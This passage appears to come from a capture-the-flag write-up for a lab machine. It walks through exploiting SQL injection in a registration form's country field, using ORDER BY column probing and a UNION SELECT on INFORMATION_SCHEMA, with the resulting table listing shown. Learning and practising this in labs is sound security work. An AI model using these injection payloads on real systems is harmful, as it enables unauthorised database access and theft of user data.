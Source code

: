 Then reloaded the account page. 

![SQLI](/assets/images/2022/05/Validation/sqli.png "SQLI")

It listed every user I created. No matter the country I used. 

Next, I checked how many columns needed to be returned by the query. Sending `username=admin&country=' Or 1 = 1 Order By 1 -- -` worked. But `username=admin&country=' Or 1 = 1 Order By 2 -- -` failed. So the query needed to return one column. 

Then I looked at the structure of the database. 

Listing the tables:

```
username=admin&country=' UNION SELECT CONCAT(table_schema, ' - ', table_name) from INFORMATION_SCHEMA.TABLES -- -
```

```
information_schema - ALL_PLUGINS
information_schema - APPLICABLE_ROLES
....
performance_schema - accounts
performance_schema - cond_instances
...
mysql - user
mysql - transaction_registry
...
registration - registration
```
